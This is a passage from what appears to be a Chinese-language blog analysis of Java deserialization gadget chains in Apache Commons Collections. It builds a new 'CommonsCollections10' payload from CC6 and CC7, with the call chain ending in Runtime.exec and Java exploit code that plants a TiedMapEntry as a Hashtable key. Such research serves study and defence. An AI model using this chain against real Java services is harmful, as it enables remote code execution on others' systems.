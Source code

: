 其中第两次的put会使得会使得LazyMap2中增加了yy这个键值，为了保证反序列化后仍然可以触发后续的利用链，这里需要将lazyMap2的yy键值remove掉。

### <a class="reference-link" name="6.%20%E6%9E%84%E9%80%A0%E6%96%B0CommonsCollections10"></a>6. 构造新CommonsCollections10

经过对前面1,3,5,6,7的分析，我们其实可以发现很多payload都是“杂交”的成果。那么我们是否能根据前面的分析，构造出一个新的CommonsCollections的payload呢？答案当然是肯定的，接下来讲一下我找到的一个新payload利用。

这个payload为CommonsCollections6和7的结合，同CommonsCollections6类似，这里也用到了`TiedMapEntry`的`hashCode`函数

我们在分析`Hashtable`的`reconstitutionPut`函数时，看下图

[![](https://p1.ssl.qhimg.com/t0115f4d14a970276a9.png)](https://p1.ssl.qhimg.com/t0115f4d14a970276a9.png)

该函数在第1234行对`key`调用了一次`hashCode`函数，那么很明显，如果key值被代替为构造好的`TiedMapEntry`实例，这里我们就能触发`LazyMap.get`函数，后续的调用链就类似了。

整理一下利用链

```
Hashtable.readObject()
    -&gt; Hashtable.reconstitutionPut
    -&gt; key.hashCode() =&gt; TiedMapEntry.hashCode()
    -&gt; TiedMapEntry.getValue
    -&gt; TiedMapEntry.map.get() =&gt; LazyMap.get()
    -&gt; factory.transform() =&gt; ChainedTransformer.transform()
    -&gt; 前文构造的Runtime.getRuntime().exec()
```

其实从利用链来看，与CommonsCollections6的区别在于前部的触发使用了不同的对象。

接下来，结合第5点的学习，我们来写一下这个payload的利用链exp

```
final Transformer transformerChain = new ChainedTransformer(new Transformer[]`{``}`);

final Map innerMap = new HashMap();
final Map innerMap2 = new HashMap();

final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
Hashtable hashtable = new Hashtable();
hashtable.put("foo",1);
// 获取hashtable的table类属性
Field tableField = Hashtable.class.getDeclaredField("table");
Permit.setAccessible(tableField);
Object[] table = (Object[])tableField.get(hashtable);
Object entry1 = table[0];
if(entry1==null)
    entry1 = table[1];
// 获取Hashtable.Entry的key属性
Field keyField = entry1.getClass().getDeclaredField("key");
Permit.setAccessible(keyField);
// 将key属性给替换成构造好的TiedMapEntry实例
keyField.set(entry1, entry);
// 填充真正的命令执行代码
Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
return hashtable;
```
